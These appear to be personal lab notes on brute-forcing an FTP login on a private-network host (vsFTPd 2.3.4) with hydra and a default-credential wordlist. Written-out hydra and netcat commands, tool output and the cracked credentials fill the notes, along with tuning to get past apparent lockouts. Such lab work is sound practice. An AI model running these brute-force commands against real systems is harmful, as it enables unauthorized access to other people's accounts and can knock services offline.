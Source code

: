 wordlists: `dpl4hydra_unix.lst`, 

`dpl4hydra unix` -> create `~/.dpl4hydra/dpl4hydra_unix.lst`

`sudo hydra -C .dpl4hydra/dpl4hydra_unix.lst -e rn -o output_hydra1 ftp://10.0.2.5 -v`
`n` null passwd
`r` reverse login as passwd
```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 315 login tries, ~20 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 10.0.2.5   login: ftp
[21][ftp] host: 10.0.2.5   login: ftp   password: ptf
[21][ftp] host: 10.0.2.5   login: ftp   password: ftp
[21][ftp] host: 10.0.2.5   login: user   password: user
Process 9881: Can not connect [unreachable], retrying (1 of 1 retries)
Process 10540: Can not connect [unreachable], retrying (1 of 1 retries)
Process 11090: Can not connect [unreachable], retrying (1 of 1 retries)
```
probably DoS'ed ftp -> `ctrl-c`

`ping 10.0.2.5`
```
PING 10.0.2.5 (10.0.2.5) 56(84) bytes of data.
64 bytes from 10.0.2.5: icmp_seq=1 ttl=64 time=0.329 ms
64 bytes from 10.0.2.5: icmp_seq=2 ttl=64 time=0.540 ms
^C
```
host seems up

`nc -vn 10.0.2.5 21`
```
(UNKNOWN) [10.0.2.5] 21 (ftp) open
220 (vsFTPd 2.3.4)
USER anonymous
331 Please specify the password.
```
ftp is up

`sudo hydra -R -t 5`
`-t 5` tasks (parallel conn.). Maybe ftp will survive this time
```
[INFORMATION] reading restore file ./hydra.restore
[WARNING] options after -R are now honored (since v8.6)
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-13 17:15:13
[DATA] max 5 tasks per 1 server, overall 5 tasks, 315 login tries, ~63 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 237.00 tries/min, 237 tries in 00:01h, 78 to do in 00:01h, 5 active
[STATUS] 118.50 tries/min, 237 tries in 00:02h, 78 to do in 00:01h, 5 active
[STATUS] 79.00 tries/min, 237 tries in 00:03h, 78 to do in 00:01h, 5 active
[STATUS] 59.25 tries/min, 237 tries in 00:04h, 78 to do in 00:02h, 5 active
Process 133069: Can not connect [unreachable], retrying (1 of 1 retries)
```
Are you for real? No progress at all, still 78 to do.
Maybe it's bcos of null ass passwd?

`less output_hydra1` - to save current progress
```
# Hydra v9.1 run at 2022-07-13 17:10:19 on 10.0.2.5 ftp (hydra -C .dpl4hydra/dpl4hydra_unix.lst -e rn -o output_hydra1 -v ftp://10.0.2.5)
[21][ftp] host: 10.0.2.5   login: ftp
[21][ftp] host: 10.0.2.5   login: ftp   password: ptf
[21][ftp] host: 10.0.2.5   login: ftp   password: ftp
[21][ftp] host: 10.0.2.5   login: user   password: user
# Hydra v9.1 run at 2022-07-13 17:15:13 on 10.0.2.5 ftp (hydra -R -t 5)
```
ftp seems like is reacting to any passwd

next try:
`sudo hydra -C .dpl4hydra/dpl4hydra_unix.lst -e r -o output_hydra1 -t 10 ftp://10.0.2.5 -v`
```
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 10 tasks per 1 server, overall 10 tasks, 210 login tries, ~21 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 10.0.2.5   login: ftp   password: ptf
[21][ftp] host: 10.0.2.5   login: user   password: user
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 39 to do in 00:01h, 10 active
[STATUS] 85.50 tries/min, 171 tries in 00:02h, 39 to do in 00:01h, 10 active
Process 205230: Can not connect [unreachable], retrying (1 of 1 retries)
Process 208328: Can not connect [unreachable], retrying (1 of 1 retries)
Process 208330: Can not connect [unreachable], retrying (1 of 1 retries)
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
[ERROR] Received signal 2, going down ...
```
 parallelly:
 `nc -vn 10.0.2.5 21`
```
 (UNKNOWN) [10.0.2.5] 21 (ftp) : Connection refused
```
so "Dos" again. I'm beggining to think that ftp block incoming connections after several unsuccessfull attempts for a little time.

`netcat` claim that FTP is up again

`sudo hydra -R -t 5`
```
[INFORMATION] reading restore file ./hydra.restore
[WARNING] options after -R are now honored (since v8.6)
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-13 17:38:56
[DATA] max 5 tasks per 1 server, overall 5 tasks, 210 login tries, ~42 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] attack finished for 10.0.2.5 (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```
done